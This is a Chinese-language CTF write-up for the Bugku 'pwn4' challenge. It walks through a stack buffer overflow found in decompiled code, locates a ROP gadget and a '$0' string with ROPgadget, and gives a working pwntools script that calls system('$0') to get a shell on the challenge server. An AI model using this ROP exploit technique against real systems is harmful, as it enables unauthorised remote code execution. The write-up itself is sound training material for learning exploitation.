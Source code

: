 ## pwn4

和 pwn2 的区别是没有现成的 `get_shell` 函数了，checksec 发现什么保护也米有，估计是写 `shellcode`。

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char s; // [rsp+0h] [rbp-10h]

  memset(&s, 0, 0x10uLL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Come on,try to pwn me");
  read(0, &s, 0x30uLL);
  puts("So~sad,you are fail");
  return 0LL;
}
```

但是填充需要 `0x18` 字节，能输入的只有 `0x30` 字节，没有足够长度写 `shellcode`，因此这个办法行不通。

IDA 中浏览下函数，发现有个奇怪的函数：

```c
int sub_400751()
{
  return system("ok~you find me,but you can't get my shell'");
}
```

这里给了 `system` 函数，我们只需要让他的参数为 `/bin/sh` 就行了。我们搜索下字符串：

![图 1](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/BugkuPwn/1.png)

这里有一堆没有意义但显然是人为添加的字符串，可以猜想我们需要的东西肯定在里面。观察到其中一个字符串末尾是 `$0`，这就是我们需要的 shell 的别名了。

先定位 `call _system` 的地址 `0x40075a`，随后需要在 64 位下传参，也就是需要 `pop rdi; ret` 这样的 `gadget`，最后要定位 `$0` 的位置：

```shell
$ ROPgadget --binary pwn4 --only 'pop|ret'
$ ROPgadget --binary pwn4 --string '\$0'
```

得到 `pop rdi; ret` 的地址 `0x4007d3` 和 `$0` 的地址 `0x60111f`。

```python
from pwn import *

context(arch='amd64', os='linux')
p = remote('114.116.54.89', 10004)


payload = 'a'*0x18 + p64(0x4007d3) + p64(0x60111f) + p64(0x40075a)

p.recvline()
p.sendline(payload)

p.interactive()
```
